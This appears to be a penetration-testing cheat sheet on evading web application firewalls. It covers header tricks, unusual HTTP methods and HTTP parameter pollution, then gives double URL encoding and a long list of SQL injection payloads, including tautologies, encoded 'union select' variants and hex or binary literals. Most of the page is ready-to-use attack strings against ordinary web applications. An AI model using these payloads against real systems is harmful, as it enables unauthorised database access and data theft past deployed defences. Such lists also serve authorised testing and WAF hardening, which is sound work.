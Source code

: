 # General WAF torment

Generally, a WAF bypass will be one of these three types.

1. **Pre-Processor:** the WAF skips the input validation completely
2. **Impedence Mismatch**: the WAF interprets the input differently than the server
3. **Rule set bypass**: the payload is too sneaky or futuristic for the WAF

A WAF may have certain rules to change a certain input, prevent it from being passed to the server or blocking the IP completely.  To be succesful, you must be patient and understand what you are doing, as throwing fat polyglot payloads will not work most of the time, while something painfully simple may do the trick.    
Take your time and fuzz the input intelligently, so you can figure out a bypass if you suspect a susceptible endpoint.

**Bypass methods:**

Adding new headers unfamiliar to the WAF, with their own payloads as a value.    
• X-Originating-IP   
• X-Forwarded-For   
• X-Remote-IP   
• X-Remote-Addr  
  
Maybe the WAF only looks for GET and POST requests, whereas THICCBABY as an http method may glide through.

**HTTP Parameter Pollution**  
  
Depending on the back-end system, this is often dealt with in very different ways.  For example, adding another of the same parameter with a different value, as below...

```text
/?productid=1&productid=2
```

**ASP.NET** parses it into "`productid=1,2"`  
**JSP** parses it into "`productid=1"`  
**PHP** parses it into `"productid=2"`

**Combining SQL Injection and Parameter Pollution**  
  
A legitimate SQL query like below...  


```text
?productid=select 1,2,3 from table
```

can be turned into a parameter pollution attack and divided in a number of different ways

```text
?productid=select 1&productid=2,3 from table
```

Will this be combined? Just take the first parameter's value? Just the second and third

Other than that, you can try all the various encodings, though URL and double URL will be the most succesful.   
  
_Double URL encoding example:_  
  
`1 union select 1,2,3  
 ’s’ -> %73 -> %25%37%33   
1 union %25%37%33elect 1,2,3`

's' via URL encoding becomes `%73`, which can be encoded again to create `%25%37%33`

If you really want to bypass WAFs in the current year.    
`<script>alert(x)<script>` won't work anymore.    
Neither will `' or 1=1 --`    
If it does, you are not bypassing any WAF because it is clear there has never been one implemented on the web app you are testing.  I recently found a SQL injection with a payload that really isn't very clever at all:   
  
 `' or 386958=386958 --`   
  
Your effort does not have to be herculean, just less lazy than the WAF developers.  
Here are some somewhat less common payloads to try.    


`1 or 1=1   
1' or ''='   
1" or ""="   
1' or true#   
1" or true#   
1 or true# etc.`   
  
`or '1   
|| '1   
null' || 'a'=_binary'a   
1' || 'a'=x'61   
1' && '0'=x'30   
1' %26%26 %270%27%3dx'30   
2' && 0.e1=_binary"0   
1 or 1.e1=0b1010   
' || 1 like 1   
'-'   
"-"   
' || 2 not like 1   
110 or x'30'=48   
'1'!=20   
1 or 20!='1'   
2 and 2>0   
3 || 0<1   
12 || 0b1010<0b1011   
0b11 || 0b1010x'30'   
1 or 0b1   
2121/**/||21   
111' or _binary'1   
1 or 2121   
1' or 12 rlike '1`

`%55nion(%53elect)   
union%20distinct%20select   
union%20%64istinctRO%57%20select   
union%2053elect   
%23?%0auion%20?%23?%0aselect   
%23?zen?%0Aunion all%23zen%0A%23Zen%0Aselect   
%55nion %53eLEct   
u%6eion se%6cect   
unio%6e %73elect   
unio%6e%20%64istinc%74%20%73elect   
uni%6fn distinct%52OW s%65lect   
%75%6e%6f%69%6e %61%6c%6c %73%65%6c%65%63%74`

**Normal Hex**  
`select 0x313131`   
**Hexed Bypass Version**   
`select x'313131';`   
**Binary Bypass**   
`select 0b011110100110010101101110;`   
**Bypass using functions**   
`select unhex(x'333133313331');`

  
****

